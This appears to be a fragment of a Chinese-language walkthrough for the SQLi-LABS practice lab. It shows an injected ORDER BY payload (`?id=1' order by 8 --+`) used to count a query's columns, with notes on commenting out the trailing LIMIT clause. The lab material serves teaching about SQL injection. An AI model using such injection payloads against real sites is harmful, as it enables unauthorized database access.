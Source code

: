 ![image-20210922211632148](../../images/SQLi-LABS/image-20210922211632148.png)

+ 接下来我们需要拆字段数量。这里我们使用`order by `语句查询。

```sql
# --+ 是注释掉后面的 limit 0,1 语句
?id=1' order by 8 --+
```

+ 我们使用二分法来使用8发现报错了。

![image-20210922212043154](../../images/SQLi-LABS/image-20210922212043154.png)
